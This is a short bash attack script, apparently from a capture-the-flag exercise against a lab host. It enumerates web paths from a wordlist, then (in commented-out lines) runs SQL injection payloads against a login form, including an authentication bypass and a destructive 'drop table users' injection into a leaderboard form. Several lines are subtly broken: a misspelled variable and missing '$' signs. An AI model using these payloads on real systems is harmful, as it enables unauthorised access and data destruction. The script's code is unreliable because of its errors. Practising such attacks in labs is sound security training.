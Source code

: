 #!/usr/bin/env bash

target='http://10.10.10.10'

while IFS='' read name
do
    attemtp=$(curl -sL "target$name" -w %{http_code})
    code=${attempt: -3}
    if [[ "$code" == "200" ]]
    then
        echo "name" >> enumerated_files.txt
    fi
done < /usr/share/wordlists/SecLists/Discovery/Web-Content/quickhits.txt
# PAGES

## LOGIN
#curl "$target/login.php" --cookie-jar cookie -O
#curl "$target/script.js" -O
curl "$target/mail.log" -O

### SQL INJECTION TEST
#username='test'
#password='test'
#while IFS='' read inject
#do
#   attempt=$(curl -sL -d "username=$username $inject" -d "password=$password" "$target/functions.php" --cookie-jar login.cookie)
#   size=${#attempt}
#   if [[ $size != 56 ]]
#   then
#       echo $inject
#       curl -sL --cookie login.cookie --cookie-jar login.cookie "$target/dashboard.php" -O
#   fi
#done < injects.txt

## Authenticated
#curl -sL -d "username=$username ' OR 'x'='x'#;" -d "password=$password" "$target/functions.php" --cookie-jar login.cookie

# Check Dashboard
#curl -sL --cookie login.cookie "$target/dashboard.php" -O
#curl -sL --cookie login.cookie "$target/edit_leaderboard.php" -O

## Edit Leaderboard
#curl -sL --cookie login.cookie -d "country=USD" -d "rank=1" -d "gold=100; drop table users #;" "$target/edit_leaderboard.php" -O
